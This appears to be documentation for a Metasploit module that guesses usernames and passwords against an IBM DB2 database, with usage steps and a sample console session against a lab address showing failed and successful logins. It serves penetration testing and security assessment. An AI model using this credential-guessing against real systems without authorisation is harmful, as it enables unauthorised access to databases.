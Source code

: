 ## Vulnerable Application

This module attempts to authenticate against a DB2 instance using username and password combinations indicated by the USER_FILE, PASS_FILE, and USERPASS_FILE options.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/db2/db2_auth) and https://nvd.nist.gov/vuln/detail/CVE-1999-0502

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/db2/db2_auth`
  3. Do: `show options`
      ...show and set options...
  4. Do: `run`

## Scenarios

    ```
    msf > use auxiliary/scanner/db2/db2_auth
    msf auxiliary/scanner/db2/db2_auth) > show options
    msf auxiliary/scanner/db2/db2_auth) > set USERNAME db2inst1
    msf auxiliary/scanner/db2/db2_auth) > set PASSWORD db2pass
    msf auxiliary(scanner/db2/db2_auth) > set DATABASE testdb
    msf auxiliary/scanner/db2/db2_auth) > set RHOST 172.17.0.2
    msf auxiliary/scanner/db2/db2_auth) > run
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2inst1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:dasusr1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2fenc1@testdb (Incorrect: )
      [*] 172.17.0.2:50000      - Login Successful: db2pass
      [*] 172.17.0.2:50000      - Scanned 1 of 1 hosts (100% complete)
      [*] Auxiliary module execution completed
    ```
